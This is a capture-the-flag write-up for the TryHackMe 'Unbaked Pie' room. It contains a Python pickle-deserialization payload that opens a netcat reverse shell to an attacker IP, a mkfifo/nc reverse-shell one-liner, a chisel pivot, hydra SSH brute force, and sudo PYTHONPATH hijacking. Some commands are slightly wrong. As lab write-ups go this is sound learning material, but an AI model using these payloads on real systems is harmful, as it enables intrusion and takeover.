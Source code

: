 # Unbaked Pie

https://tryhackme.com/room/unbakedpie

A fun room, with a pickle deserialization vector, internal pivot, and several python vulnerabilities. This room was somewhat special for me because I tried it several times over the last year, each time finding it slightly beyond my capabilities. Specifically the pivot, which I only really mastered (enough to do it casually) after the [Wreath](https://www.tryhackme.com/room/wreath) network.

## Foothold

Enumeration revealed a single port, 5003. On that port was a website talking about pies and pickles, nice puns around python and the pickle serialization library. Sure enough, the search functionality would set a cookie with a pickle value.

Exploiting this is a bit tricky, mainly because the website didn't respond to malformed cookies (it instead would crash generally if the search page is accessed via a GET). This deflected me for a bit, as I tried to find the right place where the cookie value was read. However, in actuality the value IS read on the GET /search, it just crashes anyway, so replacing the cookie and requesting this page is the entry point.

The second issue was that the standard `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.0.7 4444 >/tmp/f` would fail, but I eventually discovered that plain `nc -e /bin/bash` worked. Always worth testing, even if this is rare.

So, finally, the python3 script I used to generate a new cookie value was:

```python3
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('nc -e /bin/bash 10.10.101.125 4444')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

## Docker escape

After getting a shell, I was root in a docker container running at 172.17.0.2, confirmed via `ip a` and `hostname -i`. Exploring, I found /root/.bash_history hadn't been cleared, and in there, there were references to ssh'ing into ramsey@172.17.0.1, but also to ssh being removed from the box which I confirmed.

So this was the pivot - I needed to get 172.17.0.1:22 accessible from my attack box. To do this I used chisel: https://github.com/jpillora/chisel.

On the attack box I started a server with `client server -p 1337 --reverse &`, while on the docker container after downloading chisel to it via wget, I used `chisel client 10.10.101.125:1337 R:2222:172.17.0.1:22 &`. This opened, on the attack box, `127.0.0.1:2222` pointing at the internal machine.

Next, with ramsey as the user, I cracked the password using hydra: `hydra -l ramsey -P rockyou.txt 127.0.0.1 -s 2222 -t 4 ssh`, which got the password pretty quickly. I was then able to ssh in via `ssh -p 2222 ramsey@127.0.0.1`.

## Ramsey to Oliver

The user flag was in ramsey's folder. Running sudo -l revealed `(oliver) /usr/bin/python /home/ramsey/vuln.py`. 

Opening vuln.py, it was interesting: aside from a basic calculator, it could also use pytesseract to parse the text from an image (payload.png, in ramsey's folder) and pass the result to be evaluated.

I experimented with creating my own image: a white box with black text that would spawn a python shell. However I couldn't get tesseract to parse this correctly, after several attempts. Ultimately, it was unecessary: whether intended or not, vuln.py was in ramsey's folder and deletable, so I removed it and replaced it with a file containing `import pty; pty.spawn('/bin/bash')`. This gave me an oliver shell.

## Oliver to Root

sudo -l as oliver revealed `(root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py`.

The setenv flag is a giveaway here: it allows me to set PYTHONPATH when running sudo, which meant if `dockerScript.py` contained any import statements, I could easily escalate to root. Sure enough, `import docker` meant I just put `import pty; pty.spawn('/bin/bash')` into docker.py, and then ran `sudo PYTHONENV=/home/oliver/ /usr/bin/python /opt/dockerScript.py` to get an instant root shell.

The final flag was in /root as normal :)

Th
